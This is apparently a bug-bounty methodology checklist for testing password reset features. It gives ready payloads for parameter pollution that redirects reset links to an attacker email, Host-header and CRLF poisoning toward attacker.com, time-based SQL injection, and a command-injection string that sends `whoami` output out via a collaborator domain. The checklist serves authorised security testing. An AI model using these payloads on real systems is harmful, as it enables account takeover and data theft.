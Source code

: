 # Testing Password Reset Functionality
1. Look for Password Reset Poisoning. (Change the X-Forwarded-host, Referer, Host header to our domain)
2. HTTP Parameter Pollution:
```
email=victim@gmail.com&email=attacker@gmail.com
email[]=victim@gmail.com&email[]=attacker@gmail.com
email=victim@gmail.com%20email=attacker@gmail.com
email=victim@gmail.com|email=attacker@gmail.com
{"email":"victim@gmail.com","email":"attacker@gmail.com"}
{"email":["victim@gmail.com","attacker@gmail.com"]}
```
Check if you can reset victim's password using the link received in attacker's inbox.

3. Look for IDOR while resetting password through password reset link. Use paramminer to discover additional parameters or append previously known parameters (For example, you may find a parameter uid while updating your profile) in the request.
4. Broken Crypto - Check if you can guess how the password reset tokens are generated.
5. Password reset token Leakage via referral header - Open the password reset link and click on any external links available in the page. 
6. Token leakage in response/JS files - Search for the password reset token in the response of the request or in JS files.
7. Session/Token is not expiring after password reset.
8. Weak Password Policy - Add only space in password.
9. Request for 2 password reset links and try the older one.
9.1. RTLO: https://hackerone.com/reports/563268
9.2. BYPASS: https://hackerone.com/reports/271324
11. Try:
```
POST https://attacker.com/resetpassword.php HTTP/1.1
POST @attacker.com/resetpassword.php HTTP/1.1
POST :@attacker.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
```
Check if the password reset link is manipulated or not.

11. SQLi: ```test@test.com'+(select*from(select(sleep(2)))a)+'```
12. CRLF: ```/resetpassword?%0d%0aHost:%20attacker.com```
13. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. A similar vulnerability was found in CTFd ([CVE-2020-7245](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7245))
14. Application Level DoS - Try to set a very long password and check if the response time is delayed or if you get a 5xx response.
15. If they are sending an otp for password reset, try [2FA Bypass](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/2FA.md) techniques.
16. During registration, use homograph in email. Now try password reset.
17. Change the request method and content-type and observer how the application is responding.
18. Append null bytes after your email and observe the response.
19. Try XSS, SSTI etc in the email field.
20. Try Command injection by ```email=hello@`whoami`.xyz.burpcollaborator.net```
21. 2FA auto disabled after password reset.
22. User Enumeration.
23. Check whether any param value is reflecting in the email. Now try HTMLi.
24. XXE (if forgot-password request accepts xml).
25. Missing Rate Limit - Email triggering.

Reference:
- https://twitter.com/tuhin1729_/status/1437471718142976007
- https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature
- https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality
